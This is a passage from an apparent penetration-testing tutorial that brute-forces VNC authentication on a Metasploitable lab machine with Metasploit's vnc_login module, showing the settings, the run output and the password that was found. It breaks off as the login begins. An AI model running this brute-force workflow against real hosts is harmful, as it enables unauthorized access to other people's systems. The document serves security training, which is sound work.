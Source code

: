 ```
  3.7, 3.8 and 4.001 using the VNC challenge response authentication 
  method.

References:
  https://nvd.nist.gov/vuln/detail/CVE-1999-0506
```

We can see the options this module will take. The description is also there. From the description, it becomes clear that this is a module that will try brute-forcing. Another conspicuous fact is that this module supports RFB protocol version 3.3, which is written in our discovered VNC service (protocol 3.3). If you’re wondering why this is related – VNC service uses RFB protocol. So this module is compatible with the VNC service in our victim machine. Let’s move forward with this.

We’ve already seen the options this module will take from the “info” command. The options marked in yellow are the important ones. Not all of them are required though. We can see the default password file (PASS\_FILE) for the brute force will be (/usr/share/Metasploit-framework/data/wordlists/vnc\_passwords.txt). We’ll not be changing this file. You might want to change this one if you’re doing real world tests that are not Metasploitable. We have to define RHOSTS. Let’s turn on STOP\_ON\_SUCCESS as well, which will stop the attack once the correct credentials are found. We’ll also increase the THREADS for faster operation, and set USER\_AS\_PASS to true, which will use the same username and password as well. Let’s set these up:

```
msf6 auxiliary(scanner/vnc/vnc_login) > set RHOSTS 192.168.74.129
RHOSTS => 192.168.74.129
msf6 auxiliary(scanner/vnc/vnc_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/vnc/vnc_login) > set THREADS 32
THREADS => 32
msf6 auxiliary(scanner/vnc/vnc_login) > set USER_AS_PASS true
USER_AS_PASS => true
```

Now you can start running the brute force:

```
msf6 auxiliary(scanner/vnc/vnc_login) > run

[*] 192.168.74.129:5900   - 192.168.74.129:5900 - Starting VNC login sweep
[!] 192.168.74.129:5900   - No active DB – Credential data will not be saved!
[-] 192.168.74.129:5900   - 192.168.74.129:5900 - LOGIN FAILED: :<BLANK> (Incorrect: Authentication failed)
[+] 192.168.74.129:5900   - 192.168.74.129:5900 - Login Successful: :password

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The brute force attempt was successful. We can see the `username:password` pair as well. There is no username set up here, and the password is just `password`. In real systems, most of the time the password will not be this simple. However, now you know how you can brute force the VNC authentication.

Now let’s try to login to the VNC with our cracked credentials. I’ll use the `vncviewer` command followed by the IP address of the victim machine:
